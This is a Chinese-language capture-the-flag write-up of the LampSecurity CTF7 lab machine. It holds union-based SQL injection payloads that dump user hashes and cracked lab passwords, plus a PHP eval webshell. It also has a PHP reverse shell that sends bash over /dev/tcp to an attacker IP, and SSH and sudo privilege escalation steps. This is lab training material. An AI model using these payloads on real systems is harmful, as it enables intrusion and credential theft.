

LampSecurityCTF7 - CTF
===

> 靶机下载: [镜像](https://download.vulnhub.com/lampsecurity/ctf5.zip)

## 基本信息收集

### 主机发现


### 端口扫描


### 网页访问

打开是一个 PHP 网站: 


### 目录爆破


`/phpinfo` 存在信息泄露:


## SQL 注入

在 Profile 页面中存在注入, 首先是:


 

此处为双引号闭合, 且错误时会直接抛出完整 SQL 语句。

进一步, 根据这个报错内容能发现, 查询参数 id 为数字型, 并且为 GET 传参, 请求直接在 URL 里, 此处为 `update` 语句, 那么猜想直接访问该网页则为 `select` 语句, 马上尝试:


确定此处存在数字型注入;

1. 首先用 `order by` 确定查询返回列数为 7:

```
/profile&id=115 order by 7
```
2. 接下来用 `union select` 和一个不存在的 id 爆出库名:

```
/profile&id=-1 union select database(),2,3,4,5,6,7
```


爆出库名: website

3. 爆出表名

```
/profile&id=-1 union select group_concat(table_name),2,3,4,5,6,7 from information_schema.tables where table_schema = 'website'
```


结果为 `contact,documents,hits,log,newsletter,payment,trainings,trainings_x_users,users`;

4. 爆出字段名:

```
/profile&id=-1 union select group_concat(column_name),2,3,4,5,6,7 from information_schema.columns where table_schema = 'website'
and table_name='users'
```


结果为: `username,password,is_admin,last_login,user_id,realname,profile`

5. 根据结果爆出管理员账户密码:

```
/profile&id=-1 union select 1,2,3,4,5,group_concat(username),group_concat(password) from users where is_admin=1
```

结果为
```
brian@localhost.localdomain,
john@localhost.localdomain,
alice@localhost.localdomain,
ruby@localhost.localdomain,
leon@localhost.localdomain,
julia@localhost.localdomain

e22f07b17f98e0d9d364584ced0e3c18,
0d9ff2a4396d6939f80ffe09b1280ee1,
2146bf95e8929874fc63d54f50f1d2e3,
9f80ec37f8313728ef3e2f218c79aa23,
5d93ceb70e2bf5daa84ec3d0cd2c731a,
ed2539fe892d2c52c42a440354e8e3d5
```

哈希碰撞一下:


爆出了 4 个管理账户

## 端口登录

试试其他端口:

### 901 端口

用 `brian@localhost.localdomain`:`my2cents` 即可登录;


### 8080 端口

之前扫出来 8080 端口也是 apache tomcat 服务, 访问是一个后台登录界面:


同样用 `brian@localhost.localdomain`:`my2cents` 即可登录:

登录后是后台管理界面, 这里可以编辑网站上的所有文章, 注意这里有三类文章, 其中一种可以上传文件:


这里非常有可能上传一个 webshell;

### 10000 端口

同样是一个后台登录界面, 不过之前的密码用不上, 尝试过多还会封 ip;

## 上传 webshell

### 一句话木马

传一个一句话木马到服务器上:

```php
<?php @eval($_POST['shell']);?>
```

刚刚 `gobuster` 扫出的目录里有 `/assets` 这个目录, 很可能就在这个路径下, 尝试访问:


果然已经上传成功。

### 连接 webshell

用蚁剑连上 shell:


执行其他命令的时候遇到一点问题, 如 `python -c 'import pty;pty.spawn("bin/bash")'`, 返回报错:

```
File "<string>", line 1
    import pty;pty.spawn(/bin/bash)
                         ^
SyntaxError: invalid syntax
```

看起来是因为 `"` 被屏蔽了, 这里尝试了很久也没能突破, 先作罢, 试试不用 webshell 而是直接传反弹 shell 到 kali 上:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.145/4444 0>&1'"); ?>
```


之后寻找上下文关联文件, 找到 `db.php`:



那么可以直接用 shell 登录 mysql:

### 登录 mysql 服务

```bash
mysql -u root
```

虽然登录了 mysql 服务, 但是其实之前的库已经在 sql 注入的时候被全部拖出来了, 直接把 hash 碰撞完成就可以得到一大堆账号和密码, 去之前那个碰撞的网站多碰撞几次可以增加破解概率:

> 后来看了下 WP, 这里是不用 sql 注入拖库, 而是通过万能密码直接绕过验证, 然后 RCE 读取数据库文件后, 通过 mysql 服务读取账密的方法, 算另一种解法

|账号(邮箱)|密码|是否为admin|
|----|----|----|
|brian|my2cents|True|
|john|transformersrule|True|
|alice|turtles77|True|
|ruby|?|True|
|leon|qwer1234|True|
|julia|madrid|True|

## ssh 登录

把已知的所有秘钥排列组合尝试登录 ssh:

根据回显重新组织一下指令:

```bash
sudo ssh brian@192.168.170.154 -oHostKeyAlgorithms=ssh-rsa -p 22
```

输入 `my2cents` 登录:


`sudo -l` 发现能直接以 root 身份启动 bash:


靶机的难度不算大, 但是攻击链还是比较完整的。这次主要踩的坑是, 反弹 shell 渗透优先级应当大于 webshell。